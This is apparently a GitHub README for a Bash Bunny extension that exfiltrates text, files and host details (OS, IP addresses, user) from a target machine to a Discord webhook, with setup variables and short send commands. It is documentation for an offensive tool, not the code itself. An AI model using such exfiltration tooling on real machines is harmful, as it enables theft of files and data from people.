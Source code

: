 <div align="center">

# Discord Exfiltration
**This bashbunny extension provide exfiltration of text and files through discord webhook**

![Bash](https://img.shields.io/badge/Shell_Script-121011?style=for-the-badge&logo=gnu-bash&logoColor=white)
![Quack](https://img.shields.io/badge/Ducky_Script-121011?style=for-the-badge&logo=duck&logoColor=white)

![OSX](https://img.shields.io/badge/OSX-FFFFFF?style=for-the-badge&logo=apple&logoColor=black)
![Windows](https://img.shields.io/badge/Windows-357EC7?style=for-the-badge&logo=windows&logoColor=white)
![Linux](https://img.shields.io/badge/Linux-eab838?style=for-the-badge&logo=linux&logoColor=white)

[Documentation](#documentation) • [Changelog](#changelog) • [Contributing](#contributing) • [License](#license)  . [Support](#support)

</div>

<img width="1000" alt="demoGif" src="https://raw.githubusercontent.com/quentinlamamy/bashbunny/main/img/discordExfiltration.gif"/>

# Documentation

>To use this extension, you need to create a webhook on discord and get the webhook id and token
During your setup steps, you need to set the DISCORD_WEBHOOK_ID and DISCORD_WEBHOOK_TOKEN variables

```bash
DISCORD_WEBHOOK_ID="<DISCORD_WEBHOOK_ID>"
DISCORD_WEBHOOK_TOKEN="<DISCORD_WEBHOOK_TOKEN>"
```

### DISCORD INIT

Initialize the exfiltration session by posting an embed message on discord with host information
This command need ```$BB_HOST_OS, $BB_HOST_IP_V4, $BB_HOST_IP_V6, BB_HOST_IP_USER``` variables to be set (Set by default if you use my OSX extension)

## DISCORD SEND MSG

Send a message to discord via webhook

```bash
DISCORD SEND MSG $yourMessage
```

## DISCORD SEND FILE

Send a file to discord via webhook
```bash
DISCORD SEND FILE $yourFilePath
```

# Changelog
v1.0 : 
* :tada: Release on 2023/07/31

# Contributing
A bug ? An idea of feature ? [Fill an issue on github](https://github.com/quentinlamamy/bashbunny/issues)

# License
<p xmlns:cc="http://creativecommons.org/ns#" xmlns:dct="http://purl.org/dc/terms/"><a property="dct:title" rel="cc:attributionURL" href="https://github.com/quentinlamamy/bashbunny/blob/main/extensions/discord/discord.sh">Bashbunny discord extension</a> by <a rel="cc:attributionURL dct:creator" property="cc:attributionName" href="https://github.com/quentinlamamy">Quentin Lamamy</a> is licensed under <a href="http://creativecommons.org/licenses/by-nc-sa/4.0/?ref=chooser-v1" target="_blank" rel="license noopener noreferrer" style="display:inline-block;">CC BY-NC-SA 4.0<img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/cc.svg?ref=chooser-v1"><img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/by.svg?ref=chooser-v1"><img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/nc.svg?ref=chooser-v1"><img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/sa.svg?ref=chooser-v1"></a></p>

# Support
<a href="https://www.buymeacoffee.com/quentinlamamy" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a>

